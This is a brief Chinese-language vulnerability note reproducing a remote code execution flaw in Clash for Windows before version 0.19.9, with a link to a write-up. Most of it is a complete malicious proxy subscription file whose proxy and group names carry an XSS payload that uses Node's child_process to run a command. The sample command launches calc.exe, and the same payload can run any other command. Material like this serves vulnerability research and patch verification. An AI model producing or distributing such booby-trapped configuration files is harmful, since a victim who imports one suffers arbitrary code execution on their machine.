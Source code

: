 # Windows专区

参考资料：[Clash For Windows远程代码执行漏洞复现&分析 (qu1u1.cn)](https://qu1u1.cn/archives/clashforwindows远程代码执行漏洞复现分析)







## Clash for Windows --RCE

版本是在 0.19.9之前

代理规则配置文件中没有设置严格的输入检测，攻击者可以伪造代理配置文件利用XSS payload进行攻击



如订阅文件：

将xss代码插入proxies中进行攻击。

proxies中的name字段嵌入html标签，onerror时触发语句执行



```
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: select
    proxies:
    - a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>



```

